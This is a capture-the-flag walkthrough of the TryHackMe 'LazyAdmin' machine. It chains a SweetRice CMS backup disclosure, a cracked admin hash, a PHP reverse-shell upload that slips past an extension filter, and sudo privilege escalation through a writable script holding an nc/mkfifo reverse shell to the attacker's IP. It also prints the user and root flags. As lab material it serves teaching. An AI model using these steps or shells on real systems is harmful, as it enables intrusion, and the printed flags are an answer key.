

# LazyAdmin

Easy linux machine to practice your skills

Have some fun! There might be multiple ways to get user access.

Note: It might take 2-3 minutes for the machine to boot

# #1 - What is the user flag?

Nmap reveals 2 ports: 22 (SSH) and 80 (HTTP).

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Let's start with the web service. When connecting to the main page, we see the Apache2 Ubuntu Default Page. There is no `robots.txt` file which would disclose hidden locations.

dirsearch found a hidden directory: http://10.10.5.11/content/. It hosts SweetRice, a CMS built by basic-cms.org (http://www.basic-cms.org/). As the project is open source, we have access to the sources (https://github.com/sweetrice/SweetRice).

Analyzing the sources, we see that there is a file named changelog.txt that discloses the version:

~~~
$ curl -s http://10.10.5.11/content/changelog.txt | grep Version
Version 1.5.0
~~~

This version is outdated (the latest release at the time of this writing is 1.6.2) and may have vulnerabilities.

Looking for exploits (https://www.exploit-db.com/) affecting this CMS reveals several promising exploits (Backup Disclosure, Arbitrary File Upload, Arbitrary File Download). Let's check the first one (Backup Disclosure).

~~~
$ curl -s http://10.10.5.11/content/inc/mysql_backup/ | html2text 
# Index of /content/inc/mysql_backup

![\[ICO\]](/icons/blank.gif)| [Name](?C=N;O=D)| [Last modified](?C=M;O=A)|
[Size](?C=S;O=A)| [Description](?C=D;O=A)  
---|---|---|---|---  
  
* * *  
  
![\[PARENTDIR\]](/icons/back.gif)| [Parent Directory](/content/inc/)|  |  \- |  
![\[   \]](/icons/unknown.gif)|
[mysql_bakup_20191129023059-1.5.1.sql](mysql_bakup_20191129023059-1.5.1.sql)|
2019-11-29 12:30 | 4.7K|  
  
* * *  
  
Apache/2.4.18 (Ubuntu) Server at 10.10.5.11 Port 80
~~~

Prefect! Let's download this backup.

~~~
$ wget http://10.10.5.11/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
$ cat mysql_bakup_20191129023059-1.5.1.sql 

[REDACTED]

  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
<h1>This site is building now , please come late.</h1>
If you are the webmaster,please go to Dashboard -> General -> Website setting 

and uncheck the checkbox \\"Site close\\" to open your website.

More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a>
\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',

[REDACTED]

~~~

We have a hash: `42f749ade7f9e195bf475f37a44cafcb`. Let's search for it online (e.g. https://crackstation.net/). We now have an account:
* Username: `manager`
* Password: `Password123`

Now, still analyzing the source of the CMS on github, we see that the administration panel is accessible from the `as` subdirectory. Let's connect to http://10.10.5.11/content/as/ with the credentials found.

We are now connected. Interestingly, we find that the version is `1.5.1` (and not `1.5.0` as the `changelog.txt` was suggesting).

It seems we can create a post and attach a file. Let's try to attach a reverse shell (http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz).

Put your IP on the reverse shell and rename it `shell.php5` (`*.php` extension is not allowed but `*.php5` works).

Now, start a listener on the port you specified in the reverse shell:

~~~
$ rlwrap nc -nlvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
~~~

And browse http://10.10.5.11/content/attachment/shell.php5.

You should now have a shell:

~~~
$ whoami
www-data
$ cd /home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
~~~

User flag: `THM{63e5bce9271952aad1113b6f1ac28a07}`

# #2 - What is the root flag?

Very surprisingly for `www-data`, we have sudo privileges:

~~~
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
~~~

The backup script is a perl script that calls `/etc/copy.sh`

~~~
$ ls -l backup.pl
-rw-r--r-x 1 root root 47 Nov 29  2019 backup.pl
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat backup.pl
~~~

And we have write access to the `copy.sh` file, which already contains a template of a reverse shell.

~~~
$ ls -l /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
~~~

All we need to do is open a listener on our machine:

~~~
$ rlwrap nc -nlvp 5554
~~~

And modify the template to use our IP, and start the script with `sudo`:

~~~
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 5554 >/tmp/f" > /etc/copy.sh
$ sudo perl /home/itguy/backup.pl
~~~

In our reverse shell, we now have root access:

~~~
$ rlwrap nc -nlvp 5554
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::5554
Ncat: Listening on 0.0.0.0:5554
Ncat: Connection from 10.10.70.137.
Ncat: Connection from 10.10.70.137:50422.
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
~~~

Root flag: `THM{6637f41d0177b6f37cb20d775124699f}`
